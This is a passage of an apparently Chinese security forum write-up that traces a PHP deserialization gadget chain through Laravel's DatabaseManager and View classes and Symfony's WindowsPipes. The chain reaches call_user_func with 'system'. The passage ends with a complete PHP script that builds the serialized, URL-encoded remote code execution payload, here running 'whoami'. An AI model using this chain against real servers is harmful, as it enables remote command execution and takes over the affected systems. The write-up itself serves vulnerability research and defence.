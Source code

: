 跟进`endsWitch`

![Pasted image 20220507115414.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-a55938665eec9e73dfbb742e4a9bf1fe6859b176.png)

传入的`$name`并不在传入的`['::read','::write']`中所以返回false  
最终返回了`[$name,null]` `$name`最终被传入的`$this->app['config']['database.default']`赋值  
当`$this->connections[$name]`不存在，执行`$this->makeConnection($name)`方法，跟进

![Pasted image 20220507102807.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-eece6453d9c14bdc754308c85a2c1c80e3008449.png)

发现`call_user_func`方法控制参数可达到RCE的目的，  
第二个参数`$config`，跟进`$this->getConfig()`看看返回值是什么

![Pasted image 20220507103102.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-8907b20a81d9db14e31eb38fa3838665df5d9fcf.png)

通过`app['config']['database.connections']`赋值给`$connections`然后通过`Arr::get($connections, $name)`赋值给`$config`  
跟进`Arr::get`

![Pasted image 20220507110801.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-a3a8e5595c2effce881a20c8eba48957b5fb7dd7.png)

传入的`$key`为`whoami`，所以直接返回了`system`  
相当于`$config=$this->app['config']['database.connections']['whoami']`  
第一个参数`$this->extensions[name]`赋值`call_user_func`

```php
<?php
namespace Illuminate\Database;
class DatabaseManager{
    protected $extensions = array();
    protected $app=array();
    public function __construct(){
        $this->extensions['whoami']='call_user_func';
        $this->app['config']['database.connections']=['whoami'=>'system'];
        $this->app['config']['database.default'] = 'whoami';
    }
}

namespace Illuminate\View;
use Illuminate\Database\DatabaseManager;
class View{
    protected $factory;
    public function __construct(){
        $this->factory=new DatabaseManager;
    }
}

namespace Symfony\Component\Process\Pipes;
use Illuminate\View\View;
class WindowsPipes{
    private $files = array();
    public function __construct(){
        $this->files = array(new View());
    }
}
echo urlencode(serialize(new WindowsPipes()));
?>
```
